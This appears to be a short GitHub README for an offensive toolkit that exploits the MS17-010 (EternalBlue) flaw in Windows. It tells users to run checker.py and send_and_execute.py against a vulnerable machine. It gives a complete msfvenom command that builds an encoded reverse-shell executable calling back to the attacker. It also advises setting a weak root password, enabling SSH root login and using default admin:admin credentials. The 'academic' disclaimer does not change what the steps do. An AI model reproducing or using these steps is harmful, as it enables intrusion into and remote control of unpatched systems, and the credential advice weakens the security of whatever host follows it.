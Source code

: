# hack_into_your_heart
Hack into your heart

**This tool is only use for academic and educational.If someone use this tool causes any loss to others, I will not take any responsibility.**

You must change root password to !ROOTER and open SSH root permissions.

## Use

Offensive Secuirty Login page default account and password is admin:admin

Download the ms17-010.sh to /root and start SSH service.
If the vulnerable VM has the MS17-010 vulnerabilities, you can run checker.py with python2 to confirm target can be exploit.
When checker.py is successful scan the vulnerable VM pipe, run send_and_execute.py with python2 to exploit the vulnerable VM.

If you no have the shell.exe use the msfvenom to spawn one.
```
msfvenom -p windows/shell_reverse_tcp -a x86 -e x86/shikata_ga_nai LHOST=<Your Local IP> LPORT=<Local IP> -f exe -o shell.exe
```

